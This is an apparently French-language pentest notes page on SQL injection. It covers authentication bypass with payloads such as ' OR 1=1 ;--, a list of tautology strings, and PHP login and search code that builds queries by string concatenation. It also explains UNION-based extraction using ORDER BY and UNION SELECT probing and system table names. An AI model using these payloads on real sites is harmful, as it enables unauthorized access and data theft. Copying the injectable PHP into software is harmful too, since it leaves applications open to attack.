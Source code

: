 # Injection SQL

## Connexion sans identifiant et sans mot de passe

On tape dans l'identifiant : 

```sql
' OR 1=1 ;--
```

Et on n'oublie pas de mettre un mot de passe aléatoire, au cas ou le système vérifie si un mot de passe est rentré.

{% hint style="warning" %}
Si une erreur est affiché comme 'SQL error', alors il y a une faille dans la gestion du formulaire. Dans cas on va pouvoir l'exploiter pour en tirer d'autres infos. Si aucune sécurité n'est mise en place, la connexion se fera sur le premier utilisateur de la base de données.
{% endhint %}

## Connexion avec seulement l'identifiant

#### 1. Par le nom d'utilisateur

Dans un premier temps, on peut s'attaquer au _**nom d'utilisateur**_. Prenons par exemple, une requête de connexion au serveur de ce type :

```sql
select * from user_table
where username = 'anto'
and password = 'mystrongpassword';
```

En supposant que le mot de passe ne soit pas haché, la requête PHP ressemblerait à ceci :

```php
// Connexion à la database
$db_query = "select * from user_table where
username = '".$user."'
AND password = '".$password."';";
// Execution de la requête
```

Ainsi, en entrant dans la section du nom d'utilisateur « **anto’;--** » la requête SQL devient :

```sql
select * from user_table where
username = 'anto';-- and password = ''
```

Or, le double tiret permet de commenter du code en SQL, ce qui revient donc à contourner le mot de passe, et à pouvoir se connecter en ayant uniquement besoin du nom d'utilisateur.



#### 2. Par le mot de passe, par attaque booléenne 

Une deuxième possibilité à tester, est l'injection SQL booléenne. Par exemple, en ayant une requête SQL de ce type :

```sql
select * from user_table where
username = 'anto' and
password = 'password';
```

On peut très bien contourner le mot de passe, en entrant dans la section du mot de passe la commande « **'or 1=1;--** » qui transforme la requête comme ceci :

```sql
select * from user_table where
username = 'anto' and
password = '' or 1=1;--;
```

Et qui de ce fait, rend totalement inutile la condition password='anto' vu que la condition 1=1 sera toujours vraie.

Il existe une infinité de conditions triviales, par exemple :

```sql
'='
'OR 1=1
'OR a=a
'OR'
'OR''='
'OR"="
'OR'="
'OR '="
'OR "='
'OR ''='
'OR '=''
'OR "=''
'OR ''="
```



{% hint style="warning" %}
Malheureusement pour nous, ces genres de vulnérabilités sont extrêmement rares, mais valent le coup d'être essayés.
{% endhint %}

## Méthode UNION

Une fois une vulnérabilité trouvée, on peut l'exploiter.

Prenons le cas d'un script vulnérable de recherche d'article à partir d'un mot dans le titre, ce script affiche la liste des articles trouvés et des liens vers ceux-ci. Notre objectif est d'utiliser cette requête pour afficher le contenu d'autres tables.

```php
$sql="SELECT * FROM article WHERE title LIKE '%" . $title . "%'";
```

Problème, la structure de la table article nous est inconnue, nous ne connaissons pas ses différents champs; or pour réussir à afficher des informations d'autres tables, plusieurs challenges se posent à nous :

* Trouver le nombre et le type de chaque colonne retournée par la requête
* Trouver le nom d'une colonne et d'une table comportant des choses intéressantes \(Login, Password, etc.\)
* Utiliser une union pour récupérer les informations

Trier par numéro de colonne permet de tester si cette colonne existe. Si la requête retourne 5 colonnes ou plus, la requête suivante va fonctionner :

```sql
SELECT * FROM article WHERE title LIKE '%sql-injection%' ORDER BY 5--'
```

{% hint style="info" %}
Remarque,  '--' est utilisé par tous les SGBD pour les commentaires SQL.
{% endhint %}

Une fois identifié le nombre de colonnes, réalisons une première UNION :

```sql
SELECT * FROM article WHERE title LIKE '%sql-injection%' UNION SELECT 1,2,3,4,5--'
```

{% hint style="info" %}
Pour une base PostgreSQL, la colonne tablename de la table **pg\_tables** va permettre de récupérer le nom des tables, pour MSSQL, select name from **SysObjects**, pour MySQL, select table\_name from **information\_schema.tables .**
{% endhint %}



